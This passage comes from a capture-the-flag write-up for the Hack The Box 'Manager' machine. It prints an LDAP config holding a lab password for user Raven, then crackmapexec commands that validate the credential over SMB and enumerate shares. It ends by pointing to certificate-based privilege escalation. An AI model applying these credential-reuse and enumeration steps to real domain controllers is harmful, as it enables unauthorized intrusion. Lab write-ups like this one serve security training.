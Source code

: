 ```
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```
found a password of user `Raven`. Now i will check it on crackmapexec
```
┌──(root㉿1337)-[/home/…/CTFs/Boot2root/HacktheBox/Season]
└─# crackmapexec smb manager.htb -u Raven -p "R4v3nBe5tD3veloP3r\!123"
SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [+] manager.htb\Raven:R4v3nBe5tD3veloP3r!123 
```
Wow it works
## Deep Dive
```
└─# crackmapexec smb manager.htb -u Raven -p "R4v3nBe5tD3veloP3r\!123" --shares
SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [+] manager.htb\Raven:R4v3nBe5tD3veloP3r!123 
SMB         manager.htb     445    DC01             [+] Enumerated shares
SMB         manager.htb     445    DC01             Share           Permissions     Remark
SMB         manager.htb     445    DC01             -----           -----------     ------
SMB         manager.htb     445    DC01             ADMIN$                          Remote Admin
SMB         manager.htb     445    DC01             C$                              Default share
SMB         manager.htb     445    DC01             IPC$            READ            Remote IPC
SMB         manager.htb     445    DC01             NETLOGON        READ            Logon server share 
SMB         manager.htb     445    DC01             SYSVOL          READ            Logon server share 
```
## Privilege escalation
Verify certificates and the privileges to issue them using `certipy`:
`https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation`
`https://exploit-notes.hdks.org/exploit/windows/active-directory/ad-cs-pentesting/`
